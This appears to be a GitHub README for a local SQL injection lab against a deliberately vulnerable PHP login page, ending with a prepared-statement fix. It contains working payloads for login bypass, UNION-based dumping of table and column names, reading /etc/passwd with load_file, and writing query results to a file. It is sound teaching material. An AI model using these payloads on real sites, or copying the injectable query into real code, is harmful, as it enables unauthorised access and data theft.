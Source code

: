 # 💉 SQL Injection (SQLi) Lab – Exploiting and Bypassing Insecure Queries

## 🎯 Objective  
Learn how to exploit SQL injection (SQLi) in a vulnerable web application to bypass authentication, extract data, and write output to a file. Understand how unsanitized inputs lead to full database compromise.

---

## 🛠Tools Used  
- Apache Web Server  
- PHP login form (`index.php`)  
- Firefox (localhost)  
- Terminal (vi editor, gedit)  
- Kali Linux / VMware

---

## Lab Setup & Navigation

```bash
cd /var/www
ls
cd sqlinjection/
ls
sudo vi index.php
```

Start/restart web server:
```bash
sudo service apache2 start
sudo service apache2 restart
```

Open the site in browser:
```
http://localhost/sqlinjection/index.php
```

---

## Vulnerable SQL Code (Inside `index.php`)
```php
$sql = "SELECT * FROM students WHERE uid = $_GET['uid']";
```

- This is vulnerable: directly inserting unsanitized user input.

If user inputs:
```
2019 OR 1=1
```
The query becomes:
```sql
SELECT * FROM students WHERE uid = 2019 OR 1=1;
```
- Returns all students (authentication bypassed).

---

## Manual SQL Injection Payloads

| Input                    | Purpose                        |
|-------------------------|--------------------------------|
| 2019 OR 1=1             | Return all rows (true query)   |
| `' OR '1'='1`           | Classic auth bypass            |
| `' OR 1=1 --`           | Bypass and comment rest        |
| `' OR '1'='1' --`       | Bypass with double quotes      |

---

## Login Bypass Scenarios

**If username is known but password is not:**  
- Input this in **Password** field:  
  ```
  ' OR '1'='1
  ```

**If neither username nor password is known:**  
- Input this in **Username** field:
  ```
  ' OR '1'='1'#
  ```

- This logs you in as the first user in the database.

---

## Writing Output to File (Advanced SQLi)

**Payload:**
```sql
' or '1'='1' into outfile '/tmp/sql.txt'#
```

Use in browser:
```
http://localhost/sqlinjection/index.php?uid=' or '1'='1' into outfile '/tmp/sql.txt'#
```

Check output:
```bash
cat /tmp/sql.txt
ls /tmp/
sudo gedit /tmp/sql.txt
```

⚠- Works only if MySQL has **FILE** privilege and permission to write to `/tmp`.

---

## Useful SQLi Payloads

| Payload                                                     | Purpose                           |
|-------------------------------------------------------------|-----------------------------------|
| `' OR 'a'='a`                                               | Always true                       |
| `' UNION SELECT null, version() --`                        | Show database version             |
| `' UNION SELECT null, user() --`                           | Show DB user                      |
| `' UNION SELECT table_name, null FROM information_schema.tables --` | Dump all table names     |
| `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --` | Dump column names   |
| `' AND 1=0 UNION SELECT null, load_file('/etc/passwd') --` | Attempt to read system file       |
| `' OR 1=1 LIMIT 1 OFFSET 1 --`                              | Pagination for second user        |

---

## Secure Coding – Prevention

### Use **prepared statements**:
```php
$stmt = $pdo->prepare("SELECT * FROM students WHERE uid = :uid");
$stmt->bindParam(':uid', $_GET['uid']);
$stmt->execute();
```

### Additional protection:
- Validate and sanitize input  
- Escape special characters  
- Disable error details on production  
- Use least-privileged database accounts

## Outcome 
![Image](https://github.com/user-attachments/assets/27b58cb4-53d5-4342-9d8b-2b159523ab04)

